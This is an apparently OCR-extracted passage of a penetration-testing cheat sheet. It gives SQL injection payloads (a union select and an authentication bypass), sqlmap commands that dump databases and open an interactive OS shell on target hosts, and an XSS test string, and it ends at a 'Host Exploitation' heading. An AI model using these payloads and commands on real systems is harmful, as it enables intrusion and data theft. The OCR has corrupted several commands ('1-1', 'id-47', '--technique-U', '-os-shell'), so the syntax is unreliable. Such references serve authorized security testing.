 ```console
$ ip route add <Network To Access> via <Gateway Address>
```

For example:

```console
$ ip route add 192.168.1.0/24 via 10.10.22.1
```

This adds a route to the `192.168.1.0/24` network via the `10.10.22.1` router.

## Exploitation

### Web Exploitation

#### Manual SQL Injection (SQLi)

| Description | Injection |
| ----------- | --------- |
| Basic union | `xx' UNION SELECT null; -- -` |
| Basic bypass | `' or 1-1; -- -` |

#### Automated Exploitation with `sqlmap`

```console
$ sqlmap -u <URL> -p <PARAMETER> [options] 
```

For example:

```console
# Display all tables in the database
$ sqlmap -u http://10.10.0.1/index.php?id-47 --tables

# Enumerate the id parameter using the union technique
$ sqlmap -u 'http://192.168.1.72/index.php?id-10' -p id --technique-U

# Dump database contents
$ sqlmap -u 'http://192.162.5.51/index.php?id-203' --dump

# Prompt for interactive OS shell
$ sqlmap -u 'http://192.168.1.17/index.php?id-1' -os-shell
```

#### Cross-Site Scripting (XSS)

Test inputs against XSS using:

```js
<script>alert("XSS")</script>
```

### Host Exploitation
